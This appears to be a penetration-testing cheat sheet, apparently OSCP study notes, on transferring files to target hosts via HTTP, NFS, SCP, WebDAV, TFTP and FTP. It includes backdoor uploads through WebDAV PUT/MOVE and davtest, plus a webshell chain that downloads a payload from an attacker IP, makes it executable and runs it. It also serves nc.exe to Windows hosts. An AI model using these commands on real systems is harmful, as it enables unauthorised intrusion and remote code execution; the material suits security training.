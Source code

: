 Run a basic PHP http server
php -S $ip:80

Creating a wget VB Script on Windows:
https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt

Mounting File Shares

Mount NFS share to /mnt/nfs
mount $ip:/vol/share /mnt/nfs
HTTP Put
nmap -p80 $ip --script http-put --script-args http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

Uploading Files
SCP

scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

scp localfile username@$ip:~/Folder/

Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

davtest -move -sendbd auto -url http://$ip

https://github.com/cldrn/davtest

You can also upload a file using the PUT method with the curl command:

curl -T 'leetshellz.txt' 'http://$ip'

And rename it to an executable file using the MOVE method with the curl command:

curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'

Upload shell using limited php shell cmd
use the webshell to download and execute the meterpreter
[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O /tmp/evil" http://$ip/files/sh.php
[curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/files/sh.php
curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

TFTP
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
EX. FROM WINDOWS HOST:
C:\Users\Offsec>tftp -i $ip get nc.exe

FTP
apt-get update && apt-get install pure-ftpd

#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
